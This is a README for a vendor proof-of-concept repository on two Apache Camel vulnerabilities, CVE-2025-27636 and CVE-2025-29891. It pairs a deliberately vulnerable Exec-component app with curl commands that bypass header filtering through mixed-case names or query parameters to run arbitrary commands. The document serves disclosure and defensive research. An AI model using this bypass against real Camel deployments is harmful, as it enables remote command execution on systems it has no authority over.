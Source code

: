 # Apache Camel CVE-2025–27636 & CVE-2025-29891 PoC

[CVE-2025–27636](https://nvd.nist.gov/vuln/detail/CVE-2025-27636) and [CVE-2025-29891](https://nvd.nist.gov/vuln/detail/CVE-2025-29891) are vulnerabilities in Apache Camel that affect versions:
4.10.0-4.10.1, 4.8.0-4.8.4, 3.10.0-3.22.3.
Exploitation of these vulnerabilities can enable attackers to execute internal Camel methods.

The following is a sample vulnerable application that utilizes the Camel Exec component, which can be exploited to achieve RCE. Other Camel components could be exploited in a similar manner.

## Building

1. Install java and Maven
2. Build the project by running:
 ```
 mvn clean package
 ```
 3. Run the app:
 ```
 mvn exec:java -Dexec.mainClass=camel.vulnerable.VulnerableCamel
 ```

## Exploiting CVE-2025–27636 & CVE-2025-29891

The app exposes an HTTP endpoint that is meant to execute the "whoami" command and return the result to the client.
The "Exec" Camel component is configured to execute the command, which is statically defined in the code.

```
// recieve request from client and pass it to the "Exec" camel component
from("jetty:http://0.0.0.0:80/vulnerable")
.log("Received request from client")
// define a static command. This can be overwritten using the "CamelExecCommandExecutable" header
.to("exec:whoami")
.convertBodyTo(String.class)
.log("Command Output: ${body}");
```

### CVE-2025–27636
Despite the fact the command is static, we can overwrite it by passing the *CamelExecCommandExecutable* header, which ([as specified in the docs](https://camel.apache.org/components/4.10.x/exec-component.html#:~:text=CamelExecCommandExecutable)) overwrites the static URI.
Apache Camel is supposed to filter such headers, but due to incorrect handling of casing, passing the header "**CA**melExecCommandExecutable" bypasses the filter.

Executing the following command will override the static "whoami" command and instead run an arbitrary command:

```
$ curl "http://localhost:80/vulnerable" --header "CAmelExecCommandExecutable: ls"
pom.xml
src
target
```

We can also pass arguments by specifying the *CamelExecCommandArgs* header:

```
$ curl "http://localhost:80/vulnerable" --header "CAmelExecCommandExecutable: ping" --header "CAmelExecCommandArgs: -c 2 8.8.8.8"
PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=1 ttl=128 time=98.9 ms
64 bytes from 8.8.8.8: icmp_seq=2 ttl=128 time=46.4 ms

--- 8.8.8.8 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1012ms

```

If we pass the "normal" header, we will note that exploitation fails and the static "whoami" command executes normally:

```
$ curl "http://localhost:80/vulnerable" --header "CamelExecCommandExecutable: ls"
kali
```

### CVE-2025–29891

Originally, it was believed that request headers were the only exploitation vector. However, Akamai’s security research team reported an additional vector to the Apache Camel development team, leading to the assignment of CVE-2025-29891.
This issue originates from the same filtering flaw as CVE-2025-27636, and enables invoking internal methods through request parameters.

In the following example, we can see that specifying the “CAmelExecCommandExecutable” query parameter leads to arbitrary command execution - just like the original header vector:

```
$ curl "http://localhost:80/vulnerable?CAmelExecCommandExecutable=ls"
pom.xml
src
target
```

The original patch that was implemented to fix CVE-2025-27636 solves this issue as well, so applications that use up-to-date versions of Apache Camel are not vulnerable to this exploitation vector.


## License
Copyright 2025 Akamai Technologies Inc.

Licensed under the Apache License, Version 2.0 (the "License");
you may not use this file except in compliance with the License.
You may obtain a copy of the License at

    http://www.apache.org/licenses/LICENSE-2.0

Unless required by applicable law or agreed to in writing, software
distributed under the License is distributed on an "AS IS" BASIS,
WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
See the License for the specific language governing permissions and
limitations under the License.